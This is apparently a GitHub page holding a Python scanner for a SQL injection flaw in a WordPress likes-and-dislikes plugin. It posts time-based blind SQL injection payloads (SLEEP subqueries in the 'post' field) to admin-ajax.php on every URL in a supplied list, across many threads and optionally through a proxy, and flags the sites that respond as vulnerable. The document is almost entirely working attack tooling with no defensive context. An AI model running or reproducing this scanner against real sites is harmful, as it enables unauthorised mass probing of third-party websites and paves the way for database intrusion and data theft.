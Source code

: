 # WordPress-Likes-and-Dislikes---SQL-Injection-


import argparse
import time
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed
from threading import Lock

lock = Lock()
completed = 0
total = 0
proxy_config = None

def test_sqli(url, fudge, timeout):
    global completed
    target = url.rstrip("/") + "/wp-admin/admin-ajax.php"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }

    payloads = [5, 10]
    delays = []

    for duration in payloads:
        sleep_func = f"SLEEP({duration})"
        payload = f"action=my_likes_dislikes_action&post=1 AND (SELECT 1234 FROM (SELECT({sleep_func}))a)&state=like"

        try:
            start = time.time()
            requests.post(
                target,
                data=payload,
                headers=headers,
                timeout=timeout,
                proxies=proxy_config
            )
            elapsed = time.time() - start
            delays.append((sleep_func, elapsed))
        except:
            with lock:
                completed += 1
                print_progress()
            return

    all_valid = all(duration <= elapsed <= duration + fudge for duration, (_, elapsed) in zip(payloads, delays))

    if all_valid:
        print(f"\n[VULNERABLE] {url}")
        for sleep_func, elapsed in delays:
            print(f"  -> {sleep_func} triggered {elapsed:.2f}s delay")
        print()

    with lock:
        completed += 1
        print_progress()

def print_progress():
    print(f"\r[{completed} of {total} URL finished]", end='', flush=True)

def main():
    global total, proxy_config

    parser = argparse.ArgumentParser(description="Time-Based SQLi Checker (Clean, Threaded, Proxy-Support)")
    parser.add_argument('--file', required=True, help='File with base URLs (e.g. http://example.com)')
    parser.add_argument('--fudge', type=int, default=2, help='Extra time allowance for delay detection')
    parser.add_argument('--timeout', type=int, default=15, help='Request timeout in seconds')
    parser.add_argument('--threads', type=int, default=10, help='Number of concurrent threads')
    parser.add_argument('--proxy', help='Proxy to use (e.g. 5.5.5.5:8080)')

    args = parser.parse_args()

    # Set proxy if provided
    if args.proxy:
        proxy_config = {
            "http": f"http://{args.proxy}",
            "https": f"http://{args.proxy}"
        }

    try:
        with open(args.file, 'r') as f:
            urls = [line.strip() for line in f if line.strip()]
    except Exception as e:
        print(f"[!] Failed to read file: {e}")
        return

    total = len(urls)
    print("We launched scan")

    with ThreadPoolExecutor(max_workers=args.threads) as executor:
        futures = [
            executor.submit(test_sqli, url if url.startswith("http") else "http://" + url, args.fudge, args.timeout)
            for url in urls
        ]
        for _ in as_completed(futures):
            pass  # Output handled in thread

    print("\nScan complete.")

if __name__ == "__main__":
    main()
